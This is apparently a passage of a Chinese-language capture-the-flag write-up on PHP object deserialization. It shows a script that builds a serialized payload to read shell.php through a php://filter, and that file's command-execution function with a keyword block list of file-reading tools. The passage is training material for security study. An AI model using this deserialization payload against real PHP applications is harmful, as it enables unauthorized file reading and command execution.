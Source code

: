 ```plain
        }
    }
}
class register{
    public function checking($username,$password)
    {
        if($username==='admin'&&$password==='admin'){
            die('success register admin');
        }else{
            die('please register admin ');
        }
    }
}
class Open{
    function open($filename, $content){
        if(!file_get_contents('waf.txt')){
            shell($content);
        }else{
            echo file_get_contents($filename.".php");
        }
    }
}
$a=new Game();
$a->username='admin';
$a->password='admin';
$a->register='admin';
$a->file=new Open();
$a->filename='php://filter/read=convert.base64-encode/resource=shell';
$a->content='a';
echo base64_encode(serialize($a));
```

得到 shell.php

```plain
<?php
function shell($cmd){
    if(strlen($cmd)<10){
        if(preg_match('/cat|tac|more|less|head|tail|nl|tail|sort|od|base|awk|cut|grep|uniq|string|sed|rev|zip|\*|\?/',$cmd)){
            die("NO");
        }else{
            return system($cmd);
        }
    }else{
        die('so long!');
    }
}
```

其实绕过还是比较好绕过的，但是在源码中

```plain
if(!file_get_contents('waf.txt')){
            shell($content);
```
